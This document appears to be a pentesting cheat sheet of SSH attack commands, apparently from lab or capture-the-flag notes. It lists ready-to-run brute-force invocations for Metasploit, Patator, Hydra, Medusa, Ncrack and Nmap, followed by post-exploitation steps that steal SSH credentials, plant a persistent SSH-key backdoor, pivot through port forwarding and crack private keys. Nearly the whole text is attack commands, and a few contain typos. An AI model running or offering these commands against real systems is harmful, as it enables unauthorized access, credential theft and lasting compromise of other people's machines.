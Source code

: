 **Brute-force Attack on SSH**
-   Metasploit
	-   `use auxiliary/scanner/ssh/ssh_login` 
	-   `msf auxiliary(ssh_login) > set rhosts 192.168.1.17`
	-   `msf auxiliary(ssh_login) > set rport 22`
	-   `msf auxiliary(ssh_login) > set userpass_file [path of file]`
	-   `msf exploit (ssh_login)]set pass_file [path of file]`
-   Patator
	-  `patator ssh_login host=192.168.1.103 user=FILE0 0=/root/Desktop/user.txt password=FILE1 1=/root/Desktop/pass.txt`
-   Hydra
	-   `hydra -L /root/Downloads/pwntilldawn/Wordlist.txt -P /root/Downloads/pwntilldawn/Wordlist.txt 192.168.1.103 ssh`
    -   `-L` for a username list
    -   `-P` for the password list
-   Medusa
	-   `medusa -h 192.168.3.189 -U /root/Downloads/pwntilldawn/Wordlist.txt -P /root/Downloads/pwntilldawn/Wordlist.txtt -M ssh`
-   Ncrack   
	-   `ncrack –v –U /root/Downloads/pwntilldawn/Wordlist.txt –P /root/Downloads/pwntilldawn/Wordlist.txt 192.168.3.189:22`
-   Nmap
	-   `nmap -p 22 –script ssh-brute –script-args userdb=users.lst,passdb=pass.lst –script-args ssh-brute.timeout=4s`
  

**Enumeration for Exploit**

-   Stealing authorized keys (post exploit after logged in)
	-   `use post/multi/gather/ssh_creds`
	-   `msf post(ssh_creds) > set session 1`
	-   `msf post(ssh_creds) > exploit`
    

-   Create permanent backdoor
	-   This module will add an SSH key to a specified user, allow remote login via SSH at any time.
	-   `use post/linux/manage/sshkey_persistence`   
	-   `msf post(sshkey_persistence) > set session 1`   
	-   `msf post(sshkey_persistence) > exploit`
    

-   SSH Port Forwarding
	-   `ssh -L 9999:10.0.2.2:445 user@192.168.2.250`
	-   Port 9999 locally is forwarded to port 445 on 10.0.2.2 through host 192.168.2.250

-   Path of id_rsa
	-   user home `name/.ssh/id_rsa`
	-   user home `name/.ssh/authorized key`
    

-   Crack id_rsa
	-   `/usr/share/john/ssh2john.py`

-   Examine configuration files
	-   ssh_config
	-   sshd_config
	-   authorized_keys
	-   ssh_known_hosts
	-   .shosts

---